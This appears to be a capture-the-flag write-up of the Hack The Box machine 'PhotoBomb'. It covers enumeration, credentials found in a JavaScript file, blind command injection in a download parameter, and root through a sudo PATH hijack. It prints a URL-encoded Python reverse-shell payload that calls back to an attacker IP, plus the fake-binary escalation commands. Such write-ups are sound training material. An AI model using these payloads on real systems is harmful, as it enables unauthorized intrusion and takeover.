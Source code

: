 ```yaml
---
layout: post
title: PhotoBomb
description: Photobomb is an easy Linux machine where plaintext credentials are used to access an internal web application with a `Download` functionality that is vulnerable to a blind command injection.
categories: [writeups]
tags: [HTB, Command Injection, SUDO]
image:
  path: /assets/photobomb/Photobomb.png
---
```


## **Summary**

We accessed the web application using credentials found in a javascript file `photobomb.js`. The download functionality was vulnerable to a blind command injection.
As the user `wizard`, we were able to run `/opt/cleanup.sh` using sudo without a password, this script referenced a binary without its full path, which allowed us to
escalate our priviliges.

## **Enumeration**

### **nmap**

Initial nmap scan revealed two open ports:

- `80/tcp` : nginx 1.18.0
- `22/tcp` : OpenSSH 8.2p1

```
$ nmap 10.10.11.182 -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-04 12:36 EDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.50 seconds
```

![](/assets/photobomb/01-nmap-version.png)

### **http**

The web server contains the following page:

![](/assets/photobomb/02-port-80-page.png)

I got a basic auth prompt after clicking on `click here!` button.

![](/assets/photobomb/03-port-80-basic-auth.png)

The `Debugger` from the developer tools revealed some credentials `ph0t0:b0Mb!`.

![](/assets/photobomb/04-port-80-basic-auth-creds.png)

I used those credentials to login.

![](/assets/photobomb/05-port-80-basic-auth-login.png)

The login was successful, so I was redirected to `/printer`.

![](/assets/photobomb/06-port-80-printer.png)

I scrolled to the bottom of the page, and found a download button that downloaded the `selected image` with the `filetype` and `dimensions` I selected.

![](/assets/photobomb/07-port-80-img-download.png)

I used `burpsuite` to intersept the request after clicking the `Download` button.

![](/assets/photobomb/08-port-80-download-req-burp.png)

I thought about command injection, so I played arround with the parameters `photo`, `filetype`, and `dimensions`, using the repeater tool

![](/assets/photobomb/09-port-80-download-req-burp-action.png)

The `photo` and `dimensions` came up empty, but not the `filetype`.

What got my attention is the error message when I set an invalid filetype

![](/assets/photobomb/10-port-80-invalid-filetype.png)

and when I inject a command.

![](/assets/photobomb/11-port-80-command-exec-poc.png)

## **Foothold**

I sat up a `netcat` listener on port `1337`

```
$ nc -lnvp 1337
```

![](/assets/photobomb/12-nc-listener.png)

After that, I went back to Burpsuite and injected the following command into the `filetype` parameter to get a reverse shell.

```
python3+-c+'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.37",1337))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")'
```

![](/assets/photobomb/13-payload-burp.png)

I got no response back, but whe I went to my listener I had a reverse shell as the `wizard` user.

![](/assets/photobomb/14-rev-shell.png)

I changed directory to `/home/wizard` and got the user flag

![](/assets/photobomb/15-user-flag.png)

## **Privilege Escalation**

I checked if this user can run commands as sudo.

```
$ sudo -l
```

![](/assets/photobomb/16-sudo-l.png)

I opened `/opt/cleanup.sh` to see what it does.

```
$ cd /opt
$ ls -l
$ cat cleanup.sh
```

![](/assets/photobomb/17-opt-cleanup-sh.png)

The script is owned by `root` and I don't have write permission over it, so I could not change its content.

From the `sudo -l` output, I knew that I can run `/opt/cleanup.sh` as `root` without a password, and can also set environment variables.

At the last line of `cleanup.sh`, the `find` command is executed.

I created a costum `find` in the `/tmp`

```
$ cd /tmp
$ echo 'bash -p' > find
$ chmod +x find
```

![](/assets/photobomb/18-setup-fake-find.png)

I ran `/opt/cleanup.sh` with sudo, adding `/tmp` at the beginning of `PATH` so the `find` I created will be used instead of the original.

```
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![](/assets/photobomb/19-root-shell.png)

After the execution I got a root shell.

I moved to `/root` and got the root flag.
